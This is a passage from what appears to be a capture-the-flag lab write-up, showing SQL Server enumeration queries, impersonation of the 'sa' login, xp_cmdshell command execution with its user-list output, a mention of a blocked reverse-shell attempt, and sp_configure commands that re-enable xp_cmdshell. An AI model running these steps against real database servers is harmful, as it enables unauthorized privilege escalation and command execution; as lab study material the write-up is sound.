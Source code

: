 ```sql
LEFT JOIN 
    sys.database_permissions p ON u.principal_id = p.grantee_principal_id
LEFT JOIN 
    sys.objects o ON p.major_id = o.object_id
WHERE 
    u.type IN ('S', 'U', 'G') -- S = SQL user, U = Windows user, G = Windows group
ORDER BY 
    u.name, o.name, p.permission_name;
```

![Writeup-10.png](/assets/images/Season 5/Freelancer/Writeup-10.png)

Get sysadmins:
```sql
SELECT 
    sp.name AS principal_name,
    sp.type_desc AS principal_type
FROM 
    sys.server_principals sp
JOIN 
    sys.server_role_members srm ON sp.principal_id = srm.member_principal_id
JOIN 
    sys.server_principals rp ON srm.role_principal_id = rp.principal_id;
```

![Writeup-11.png](/assets/images/Season 5/Freelancer/Writeup-11.png)

```sql
EXECUTE AS LOGIN = 'sa';
EXEC xp_cmdshell "net user";
REVERT;

User accounts for \\DC
null
-------------------------------------------------------------------------------
Administrator alex.hill carol.poland
d.jones dthomas ereed
Ethan.l evelyn.adams Guest
hking jen.brown jgreen
jmartinez krbtgt leon.sk
lkazanof lorra199 maya.artmes
michael.williams mikasaAckerman olivia.garcia
samuel.turner sdavis sophia.h
sql_svc SQLBackupOperator sshd
taylor wwalker
The command completed successfully.
```

I tried getting ConPtyShell, but it looks like AV Is active on box.

![Writeup-12.png](/assets/images/Season 5/Freelancer/Writeup-12.png)

Probably box specific thing, but the `xp_cmdshell` permissions restarts after few commands. To reset use:
```bash
EXECUTE AS LOGIN = 'sa'; 
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```
